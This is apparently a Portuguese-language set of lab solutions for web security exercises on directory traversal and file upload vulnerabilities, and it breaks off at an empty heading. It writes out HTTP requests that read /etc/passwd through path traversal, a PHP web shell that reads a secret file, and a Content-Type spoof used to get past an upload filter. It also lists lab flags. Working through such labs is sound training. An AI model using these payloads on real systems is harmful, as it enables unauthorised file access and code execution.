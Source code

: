 # Exercises

## Directory traversal

### >> 1. File path traversal, simple case
Crie uma requisição GET contendo o caminho do arquivo a ser lido
````http
GET /image?filename=../../../etc/passwd HTTP/1.1
Host: ac611f7c1ebca4cec0b52379003e009f.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 2. File path traversal, traversal sequences blocked with absolute path bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````
GET /image?filename=/etc/passwd HTTP/1.1
Host: ac601f011f09bc6dc05120b5004a00fa.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````




## File upload vulnerabilities 

### >> 1. Remote code execution via web shell upload
Crie um arqvuio com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens e acesse o arquivo submetido através do link informado.

`Flag: 0sehBXVzLAZHtNFAuMJmIlFDR3UGAx5s`

### >> 2. Web shell upload via Content-Type restriction bypass
Crie um arqvuio com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens 

Encaminhe a request para repeater e altera o header de:

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/jpeg

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

e acesse o arquivo submetido através do link informado.

`Flag: iiVfQK3LlDuvm0uskl9M2nHoeSEX4JrA`

### >> 3.
